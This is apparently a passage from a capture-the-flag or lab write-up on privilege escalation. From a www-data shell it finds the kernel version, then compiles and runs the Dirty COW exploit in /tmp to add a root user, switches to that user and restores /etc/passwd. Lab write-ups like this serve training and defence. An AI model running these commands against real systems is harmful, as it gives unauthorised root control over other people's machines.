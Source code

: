 *ALTERNATIVE PRIV ESC*

Once we are in the system as www-data, we can check the kernel version using the following command 

```uname -a```

After a short search, we find that there are some kernel exploits which could work here. One of them is Dirty COW, we will use this one https://github.com/firefart/dirtycow

We compile it using the following command

```cd /tmp && gcc -pthread dirty.c -o dirty -lcrypt && ./dirty rootpass```

We log in as root (now named firefart)

```su firefart```

```mv /tmp/passwd.bak /etc/passwd```

```id```
